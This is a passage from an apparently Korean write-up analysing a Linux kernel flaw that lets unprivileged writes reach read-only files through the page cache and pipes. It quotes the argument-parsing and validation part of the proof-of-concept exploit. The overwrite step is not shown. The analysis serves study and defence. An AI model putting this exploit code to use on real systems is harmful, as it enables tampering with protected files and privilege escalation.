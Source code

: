 읽기 권한이 없는 경우 뿐만 아니라 불변 파일, 읽기 전용 btrfs 스냅샷, 읽기 전용 마운트들에서도 동작한다.  
왜냐하면 커널에 의해 페이지 캐시는 항상 쓰기가 가능하고 파이프에 쓰는 것은 권한을 확인하지 않기  때문이다.  
<br>

### 5.3. PoC 분석

<details markdown="1"><summary>전체 코드</summary></details>

---

```c
if (argc != 4) {
    fprintf(stderr, "Usage: %s TARGETFILE OFFSET DATA\n", argv[0]);
    return EXIT_FAILURE;
}

/* dumb command-line argument parser */
const char *const path = argv[1];
loff_t offset = strtoul(argv[2], NULL, 0);
const char *const data = argv[3];
const size_t data_size = strlen(data);

if (offset % PAGE_SIZE == 0) {
    fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
    return EXIT_FAILURE;
}

const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
const loff_t end_offset = offset + (loff_t)data_size;
if (end_offset > next_page) {
    fprintf(stderr, "Sorry, cannot write across a page boundary\n");
    return EXIT_FAILURE;
}

/* open the input file and validate the specified offset */
const int fd = open(path, O_RDONLY); // yes, read-only! :-)
if (fd < 0) {
    perror("open failed");
    return EXIT_FAILURE;
}

struct stat st;
if (fstat(fd, &st)) {
    perror("stat failed");
    return EXIT_FAILURE;
}

if (offset > st.st_size) {
    fprintf(stderr, "Offset is not inside the file\n");
    return EXIT_FAILURE;
}

if (end_offset > st.st_size) {
    fprintf(stderr, "Sorry, cannot enlarge the file\n");
    return EXIT_FAILURE;
}
```

